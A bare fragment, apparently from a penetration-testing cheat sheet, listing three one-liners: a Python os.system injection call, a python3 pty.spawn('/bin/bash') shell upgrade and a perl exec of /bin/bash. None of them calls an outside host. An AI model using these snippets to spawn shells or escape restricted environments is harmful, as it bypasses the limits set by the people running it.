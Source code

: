 __import__('os').system('ls')

python3 -c 'import pty;pty.spawn("/bin/bash")'

perl -e 'exec "/bin/bash";'
